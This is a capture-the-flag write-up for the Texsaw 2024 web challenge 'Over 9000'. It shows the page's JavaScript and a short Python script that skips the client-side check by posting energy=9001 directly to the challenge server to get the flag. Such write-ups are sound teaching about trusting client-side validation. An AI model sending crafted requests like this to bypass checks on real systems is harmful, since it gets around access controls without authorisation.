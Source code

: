 ```yaml
---
title: Over 9000
author: Nightxade
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 50
solves: -1
tags: web post
date: 2024-3-25
comments: false
---
```


Help Goku get over 9000 energy to defeat his enemy Vegeta and save the world.  

3.23.56.243:9005  

---

Visit the site. Head to Chrome Dev Tools --> Sources. Here's the .js file controlling it all:  

```js

let currentEnergy = 0;

function gatheringEnergy(){
    currentEnergy++;
    $("#energycount").html(`${currentEnergy}`);
    if(currentEnergy == 10)
    {
        alert("out of energy try again :(")
        currentEnergy = 0;
        $("#energycount").html(0);
        
    }
    else if (currentEnergy > 9000)
    {
        
        $.ajax({
            type:"POST",
            url:"kamehameha.php",
            data:{energy: currentEnergy},
            success: function(flag){
                alert(`${flag}`);
            },
            error: function(responseText,status, error){
                console.log(`Tell the infrastructure team to fix this: Status = ${status} ; Error = ${error}`);
            }


        })
        
    }
}

```

So it's impossible to actually get to over 9000. However, we can just send a POST request ourselves to kamehameha.php! Here's a script that does just that:  

```py
from requests import post

d = dict()
d["energy"] = 9001
res = post("http://3.23.56.243:9005/kamehameha.php", d).text
print(res)
```

And we get the flag!  

    texsaw{y0u_th0ught_th1s_w4s_4_fl4g_but_1t_w4s_m3_d10}